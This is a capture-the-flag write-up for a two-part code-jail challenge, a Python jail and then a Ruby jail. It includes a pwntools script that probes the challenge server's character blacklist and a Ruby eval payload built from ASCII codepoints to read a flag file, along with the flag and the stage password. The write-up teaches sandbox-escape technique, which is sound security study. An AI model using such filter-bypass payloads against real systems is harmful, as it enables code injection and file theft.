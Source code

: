 ```yaml
---
layout: writeup
category: Hackappatoi-CTF-2023
chall_description:
points: 310
solves: N/A
tags: misc misc/pyjail misc/ruby-jail
date: 2023-12-10
comments: false
---
```


Italy is maybe the most touristic country around the world, amazing food, spectacular monuments, and faboulus environments  

But in the last period Italy don't wanna let anyone escape...  

`nc 92.246.89.201 8888`  

---

Connect to the service. Here's what it shows:  

```py



                              ΓûêΓûê              ΓûêΓûê
                            ΓûêΓûê              ΓûêΓûê
                          ΓûêΓûê        ΓûêΓûê    ΓûêΓûê
                          ΓûêΓûê      ΓûêΓûê      ΓûêΓûê
                            ΓûêΓûê    ΓûêΓûê        ΓûêΓûê
            ΓûæΓûæΓûæΓûæ              ΓûÆΓûÆ  ΓûêΓûê          ΓûÆΓûÆ  ΓûæΓûæ
                              ΓûêΓûê    ΓûêΓûê        ΓûêΓûê
                            ΓûêΓûê        ΓûêΓûê    ΓûêΓûê
                                      ΓûêΓûê  ΓûêΓûê
                                    ΓûêΓûê
                                                  ΓûæΓûæ
                  ΓûêΓûêΓûêΓûêΓûêΓûê        ΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûê
                ΓûêΓûê      ΓûêΓûê    ΓûêΓûê            ΓûêΓûê
              ΓûêΓûê    ΓûêΓûêΓûêΓûê  ΓûêΓûêΓûêΓûê    ΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûê    ΓûêΓûê              ΓûêΓûêΓûêΓûê
            ΓûêΓûê    ΓûêΓûê    ΓûêΓûêΓûêΓûê    ΓûêΓûê        ΓûêΓûê    ΓûêΓûêΓûêΓûêΓûêΓûê      ΓûêΓûê    ΓûêΓûê
            ΓûêΓûê  ΓûêΓûê  ΓûêΓûêΓûêΓûêΓûêΓûê    ΓûêΓûê    ΓûêΓûêΓûêΓûê    ΓûêΓûê    ΓûêΓûê  ΓûêΓûê  ΓûêΓûê        ΓûêΓûê
          ΓûêΓûê  ΓûôΓûô  ΓûêΓûê  ΓûêΓûê    ΓûêΓûê    ΓûêΓûê    ΓûêΓûê    ΓûêΓûê    ΓûôΓûô  ΓûôΓûô          ΓûêΓûê
          ΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûê    ΓûêΓûê
            ΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûê      ΓûêΓûêΓûêΓûê    ΓûêΓûê
            ΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûê      ΓûêΓûêΓûêΓûê  ΓûêΓûê
              ΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûôΓûôΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûê      ΓûêΓûêΓûêΓûê    ΓûêΓûê
                ΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûê    ΓûêΓûêΓûêΓûêΓûêΓûê        ΓûêΓûê
                  ΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûê  ΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûê
                      ΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûôΓûôΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûêΓûôΓûôΓûôΓûô





≡ƒì┤≡ƒì┤≡ƒì┤
```

The challenge clearly implies this is some sort of code jail. These are typically pyjails -- let's test it out.  

Sending `print` returns `<built-in function print>`, which pretty much confirms this is a pyjail. I immediately decided to try a naive method to get the flag.  

```py
print(open('flag.txt', 'r').read())
```

Output:  

```
read key

None
```

Hey... that worked? No keywords or anything were blacklisted? Well, let's check out `key` anyways.  

```py
print(open('key', 'r').read())
```

```
guera

Yep, not the flag..., use 'guera' as the password for the real challenge at port 8889

None
```

Ah. So there's a part 2 to this challenge. Let's check it out!  

Here's what we're presented with after sending the key, `guera`:  

```
Oh Oh you escaped from a pasta jail..., can you escape from a bank and steal a precious ruby?...


Welcome to:
HACKAPPATOI's Jewelry (We got funds from zio Berlusca)
Here you will find a magnific 1337 Jewel

        _______
      .'_/_|_\_'.
      \`\  |  /`/
       `\\ | //'
         `\|/`
           `

But you need to obtain it and it won't be so easy...
You have a command to get it....
Good Luck!
Enter command:
```

Another pyjail? Let's try sending `print`:  

`Oopsie.. your input is bad... We blocked it.`  

Not sure if it's Python yet, but definitely some blacklisting going on. Let's try some random letters. Eventually, with the input `a`, I got this:  

```
(eval):1:in `<main>': undefined local variable or method `a' for main:Object (NameError)
        from jewelry.rb:40:in `eval'
        from jewelry.rb:40:in `<main>'
```

`.rb`...? Isn't that a Ruby file? So this must be a Ruby jail!  

With further testing, I quickly realized a lot of characters were blacklisted. Hence, I wrote a quick script to test which ones were blacklisted:  

```py
# print(open('flag.txt', 'r').read())
# print(open('key', 'r').read())
# pass is 'guera'

from pwn import *
import string

posschars = string.ascii_letters + string.digits + string.punctuation
validchars = []
for i in posschars:
    conn = remote('92.246.89.201', 8889)
    conn.recv()
    conn.sendline(b'guera')
    conn.recv()
    conn.recv()
    conn.sendline(i.encode())
    res = conn.recv().decode()
    conn.close()
    if 'Oops' not in res:
        validchars.append(i)
        print(res)

print(validchars)
```

Testing revealed that these characters...  

```py
['a', 'e', 'l', 'v', 'A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z','0', '1', '2', '3', '4', '5', '6', '7', '8', '9', '!', '"', '#', '$', '%', '&', "'", '(', ')', '*', '+', ',', '-', ':', ';', '<', '=', '>', '?', '@','[', '\\', ']', '^', '`', '{', '|', '}', '~']
```

...were the only allowed characters. That's odd... only `aelv` are allowed of the lowercase letters, and, importantly, these spell out `eval`. Maybe that'll be important to the challenge?  

At this point, since I had never even used Ruby before, much less broken a Ruby jail, I started doing a lot of research and playing around with the service. I tried octal numbers, global variables, predefined constants, etc etc. Overall, I ended up being stuck for over an hour on this section of the problem. Eventually, my search query of `ruby jail without letters ctf` returned results. The reason I wanted to find some sort of hint to breaking a ruby jail without letters was because a lot of lowercase letters were restricted, so if I could find a way to break it without letters, I could easily break the jail. (in hindsight, I should have searched this up much earlier!)  

Scrolling down a bit, I found [this writeup](https://ctftime.org/writeup/16824) on CTFtime. Take a look at this section:  

>[This article](https://threeifbywhiskey.github.io/2014/03/05/non-alphanumeric-ruby-for-fun-and-not-much-else/) describes how you can write ruby code without letters, and since we are able to use the quote sign ', we can create strings with the shovel operator trick they describe.  

I immediately took a look through the article and found this section:  


>Logically enough, it can “shovel” strings into each other. This doesn’t quite help us, of course, as we’re not allowed to create explicit character strings. We can, however, shovel Unicode codepoints into strings to achieve the same effect:  
>
>```rb
>'' << 97 << 98 << 99
># "abc"
>```

So we don't need letters at all to construct our inputs! Perfect!  

Now all that's left to do is construct our payload. With the help of [this](https://onlinetools.com/ascii/convert-ascii-to-decimal) decimal to ASCII converter and [this](http://www.unit-conversion.info/texttools/replace-text/) online replace string helper, I was able to construct our payload pretty easily. At first, trying to open `flag.txt` didn't work, but then, trying `flag` did!  

Here is the ASCII:  

```rb
puts File.open("flag").read
```

And here is the payload to send to the service:  

```rb
eval(''<<112<<117<<116<<115<<32<<70<<105<<108<<101<<46<<111<<112<<101<<110<<40<<34<<102<<108<<97<<103<<34<<41<<46<<114<<101<<97<<100)
```  

And sending it produces the flag!  

    HCTF{1s_d1z_r34l1ty_0r_F1c710n?}  

Thoughts: As a complete newbie to both pyjails and ruby, I was pretty proud of this solve! Although it did take me quite a long time to solve, I thought I managed to figure out everything by the end quite nicely :)  